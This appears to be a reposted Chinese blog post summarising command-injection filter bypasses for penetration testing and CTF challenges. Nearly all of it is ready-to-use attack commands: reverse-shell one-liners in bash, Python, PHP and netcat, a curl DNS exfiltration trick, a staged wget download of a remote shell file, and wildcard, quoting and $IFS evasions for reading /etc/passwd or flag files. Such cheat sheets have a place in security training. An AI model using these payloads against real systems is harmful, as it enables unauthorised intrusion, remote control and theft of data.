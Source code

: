```yaml
---
layout: post
title: "命令注入bypass总结（长期更新）"
subtitle: "一些各种实战奇淫技巧,CTF Trick"
date: 2018-12-20
author: bPJoanna
category: Paper
finished: true
---
```

[TOC]

```bash
sh -c "cmd"


bash -i >& /dev/tcp/ip/port 0>&1

python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"

php -r 'exec("bash -i >& /dev/tcp/ip/port 0>&1");'

php -r '$sock=fsockopen("ip",port);exec("/bin/bash -i <&3 >&3 2>&3");'

nc -e /bin/bash ip port


```

```bash
` & || | $()

%0a 换行符

%0d 回车符

;   连续指令

a=l;b=s;$a$b 局部变量

curl `whoami`xxxx.xxx  DNS管道解析
```



==Trick==
```bash
1>wget\
1>xxx.com.\
1>com\
1>-O\
1>she\
1>ll.p\
1>p
ls -t>a
sh a
```
> ls -t 是按照时间顺排序


http://2130706433   IP转10进制

http://0x7F000001   IP转16进制

> 转化网址：http://www.msxindl.com/tools/ip/ip_num.asp

## 通配符


```bash
/???/n? -e /???/b??h 127.0.0.1 6666

bin/nc -e /bin/bash 127.0.0.1 6666

/???/c?t /?t?/p??swd
```



```
*    代表『 0 个到无穷多个』任意字符
?    代表『一定有一个』任意字符
[ ]    同样代表『一定有一个在括号内』的字符(非任意字符)。例如 [abcd] 代表『一定有一个字符， 可能是 a, b, c, d 这四个任何一个』
[ - ]    若有减号在中括号内时，代表『在编码顺序内的所有字符』。例如 [0-9] 代表 0 到 9 之间的所有数字，因为数字的语系编码是连续的！
[^ ]    若中括号内的第一个字符为指数符号 (^) ，那表示『反向选择』，例如 [^abc] 代表 一定有一个字符，只要是非 a, b, c 的其他字符就接受的意思
```


## cat flag->


```bash
cat fla[a-z]


cat fl[a]g

cat f``lag

c’a’t /f’la’g

cat fl??

cat f*
cat $(echo -n "base64加密的flag" | base64-d)

cat `echo -n "base64加密的flag" | base64-d`

c\at /fl\ag

head /`ls /|grep 'fla'

a=c;b=at;c=fl;d=ag;$a$b $c$d
```


## 利用历史执行记录来bypass
```bash
root@kali$ cat
root@kali$ fl
root@kali$ ag

root@kali$ history
1.cat
2.fl
3.ag

root@kali$ !1!2!3
flag{ea3y_bypa3s_inj3ct1on}

```


==过滤空格的时候==

```bash
cat${IFS}flag

cat$IFS$9flag

<

``
```

%09 (需要php环境)



## 命令终止符


```
%00 %20
```

## 其他绕过

```bash
cat$u /etc$u/passwd$u

/?in/cat /?tc/p?sswd

/'b'i'n'/'c'a't' /'e't'c'/'p'a's's'w'd

/"b"i"n"/"w"h"i"c"h" "n"c

/b\i\n/w\h\i\c\h n\c


```

## 写文件

Windows


```
echo 48 65 6C 6C 6F 2C 57 6F 72 6C 64 21 >hex.txt
生成 hex.txt，机器码对应的内容是 Hallo World!
certutil -decodehex hex.txt bin.txt
也可以base64解码
certutil -decode hex.txt bin.txt
```

Linux

```bash
echo -e "\x61">1.txt
```



转自[花与海表哥](https://ctf.dog/)
